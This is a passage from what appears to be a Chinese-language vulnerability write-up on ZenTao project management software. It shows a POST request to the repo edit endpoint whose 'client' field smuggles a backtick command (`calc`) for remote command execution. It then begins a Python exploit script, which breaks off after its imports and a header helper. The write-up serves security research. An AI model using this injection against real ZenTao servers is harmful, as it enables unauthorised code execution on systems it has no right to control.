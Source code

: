 登陆账户后也发现创建成功了

![image-20230620150007434](images/26.png)

```
http://172.23.60.111/zentaopms/www/index.php?m=repo&f=edit&repoID=8&objectID=0&tid=rmqcl0ss

post:
product[]=1&SCM=Subversion&serviceHost=&name=wangnima2333&path=http://123.4.5.6&encoding=utf-8&client=`calc`&account=&password=&encrypt=base64&desc=&uid=63e4a26b5fd65
```

![image-20230620145716224](images/27.png)

直接用反引号执行



```
import random
from secrets import choice
import requests
from urllib.parse import quote
import sys
import string
import json


def getHeader(url):
    '''
        获取请求时需要的头信息。
        Referer如果不同源会导致POST为空
    '''
```